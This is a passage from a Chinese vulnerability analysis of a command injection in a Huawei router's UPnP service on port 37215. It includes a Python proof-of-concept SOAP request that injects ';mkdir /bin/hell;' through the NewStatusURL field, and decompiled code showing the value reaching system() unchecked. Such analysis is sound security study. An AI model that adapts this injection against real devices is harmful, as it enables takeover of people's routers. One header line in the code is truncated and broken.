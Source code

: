 ```
import requests 
headers = {
    "Authorization": "Digest user
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;mkdir /bin/hell;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.3.2:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

可以看到在 NewStatusURL 标签处注入了代码，例如上面的 POC 为创建一个名为 hell 的文件夹。

![](https://mmbiz.qpic.cn/mmbiz_png/djiam4RadAPY9RkY0Tx7x6VaJkDY0Pia0T48tJplcPQSaPDicqNFJQibsY5eqJQZ8Fx7LTkwYOJLkDulE6VYiaekTicg/640?wx_fmt=png)

4 漏洞分析

首先需要分析出这 **37215 端口**的应用程序「此处对应的程序为 upnp｜[怎么查找端口对应的程序可以参照我们之前的一篇文章](http://mp.weixin.qq.com/s?__biz=MzUzMjcxMzg5Mg==&mid=2247487963&idx=1&sn=4d8b0084cbb1e0742eb7f619f85659d5&chksm=faae4910cdd9c006fd347d43e2c8ace047d6eefc447823cf6a5bcc8dadac7a8963ab57c09591&scene=21#wechat_redirect)」，然后对该程序进行逆向。从 POC 中可以分析，注入点是在 **<NewStatusURL>**，通过在 Ghidra 中搜索该字符串，并查找交叉引用，找到目标函数**「IDA 不大行，没法 F5，我也不知道为啥，求知道的师傅讲解」**：

![](https://mmbiz.qpic.cn/mmbiz_png/djiam4RadAPY9RkY0Tx7x6VaJkDY0Pia0THk9hCgNdFQ2aEEsicoBnAZkoVW7hxQtIACO8Jq1dibhibQFHr1B4ULuUA/640?wx_fmt=png)

我们可以看到这 sprinf 将 418 和 414 变量直接写入到了 1040 字符串，未经过任何验证就直接使用 system 执行

```
int FUN_0040749c(int param_1)
{
  int iVar1;
  int local_418;
  int local_414;
  char acStack1040 [1028];
  
  iVar1 = ATP_XML_GetChildNodeByName(*(undefined4 *)(param_1 + 0x2c),"NewDownloadURL",0,&local_418);
  if (((iVar1 == 0) && (local_418 != 0)) &&
     (iVar1 = ATP_XML_GetChildNodeByName
                        (*(undefined4 *)(param_1 + 0x2c),"NewStatusURL",0,&local_414), iVar1 == 0))
  {
    if (local_414 != 0) {
      snprintf(acStack1040,0x400,"upg -g -U %s -t \'1 Firmware Upgrade Image\' -c upnp -r %s -d -b",
               local_418,local_414);
      system(acStack1040);
    }
  }
  return iVar1;
}
```
